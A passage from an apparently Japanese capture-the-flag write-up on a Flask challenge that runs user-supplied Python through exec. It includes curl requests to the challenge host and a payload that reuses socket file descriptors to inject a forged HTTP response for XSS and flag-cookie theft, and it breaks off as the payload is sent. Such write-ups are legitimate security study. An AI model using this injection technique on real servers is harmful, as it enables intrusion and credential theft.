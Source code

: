 ```python

if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0", port=31417)
```
もう一度メインのアプリケーションの応答を確認する。  
```bash
$ curl 'http://118.27.109.12:31416/?code=print%281%29' -I
HTTP/1.1 200 OK
Server: nginx/1.25.3
Date: Sat, 09 Dec 2023 00:00:00 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1059
Connection: close

$ curl 'http://118.27.109.12:31416/?code=print%281%29'
~~
                <p class="block text-gray-700 text-sm font-bold mb-2">
                    Your code has been executed. However, no results will be returned. 🤪
                </p>
~~~
```
`Server`レスポンスヘッダーは`nginx/1.25.3`であるので`Tsukushi/2.94`ではない。  
また、`🤪`もレスポンスボディに含まれている。  
これらがなければ`request.cookies.get`で取得したフラグを外部に送信するだけで済む(`/bin/*`が無いが)。  
以上のことよりexecを行うことでFlaskの応答結果のレスポンスヘッダーとレスポンスボディを書き換えてXSSする問題だとわかる。  
ここでexecがHTTP通信中に行われるため、Flask(かWerkzeug)がfdを保持しており、そこにデータを流し込むことでうまくレスポンスを書き換えることができそうなことに気づく。  
もしくは、execで自由度が高いのでPythonのメモリ上に乗っているテンプレートを書き換えることもできるかもしれない。  
後者はアプリケーションを破壊しそうなので、前者を試す。  
Flask(かWerkzeug)がfdに書き込んでいないかソースコードを調査する。  
[Flask Source Code](https://github.com/search?q=repo%3Apallets%2Fflask%20file%20descriptor&type=code)  
[Werkzeug Source Code](https://github.com/search?q=repo%3Apallets%2Fwerkzeug%20file%20descriptor&type=code)  
これらを見ると[`socket.fromfd`の箇所](https://github.com/pallets/werkzeug/blob/eafbed0ce2a6bdf60e62de82bf4a8365188ac334/src/werkzeug/serving.py#L778)が使えそうなことがわかる。  
[ここ](https://docs.python.org/3/library/socket.html#socket.fromfd)を見るとすでにあるソケット参照のfdからソケットオブジェクトを作ってくれるらしいことがわかる。  
これを用いてHTTPリクエストを流し込んでみる。  
```python
import socket
for fd in range(100):
    try:
        sock = socket.fromfd(fd, socket.AF_INET, socket.SOCK_STREAM)
        sock.sendall(b'''HTTP/1.1 200 OK
Content-Length: 6
Content-Type: text/html
Connection: Closed

Satoki''')
    except Exception as e:
        pass
```
実行する。  
```bash
$ curl 'http://118.27.109.12:31416/?code=import+socket%0D%0Afor+fd+in+range%28100%29%3A%0D%0A++++try%3A%0D%0A++++++++sock+%3D+socket.fromfd%28fd%2C+socket.AF_INET%2C+socket.SOCK_STREAM%29%0D%0A++++++++sock.sendall%28b%27%27%27HTTP%2F1.1+200+OK%0D%0AContent-Length%3A+6%0D%0AContent-Type%3A+text%2Fhtml%0D%0AConnection%3A+Closed%0D%0A%0D%0ASatoki%27%27%27%29%0D%0A++++except+Exception+as+e%3A%0D%0A++++++++pass' -v
*   Trying 118.27.109.12:31416...
* Connected to 118.27.109.12 (118.27.109.12) port 31416 (#0)
```